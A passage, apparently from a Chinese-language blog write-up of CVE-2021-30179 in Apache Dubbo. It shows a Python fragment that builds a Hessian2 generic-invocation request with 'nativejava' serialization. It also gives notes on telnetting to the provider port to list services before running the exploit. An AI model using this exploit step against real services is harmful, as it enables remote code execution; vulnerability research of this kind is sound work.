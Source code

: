 ```python
body += hessian2_writeString('generic-test')
body += hessian2_writeString('interface')
body += hessian2_writeString(service_name)
body += hessian2_writeString('version')
body += hessian2_writeString('0.0.0')
body += hessian2_writeString('generic')
body += hessian2_writeString('nativejava')
body += b'Z'
```

对应的服务名和参数描述可以通过telnet到provider端口上去获取
![](/img/in-post/CVE-2021-30179/3.png)

ls命令获取服务信息
![](/img/in-post/CVE-2021-30179/4.png)

执行exp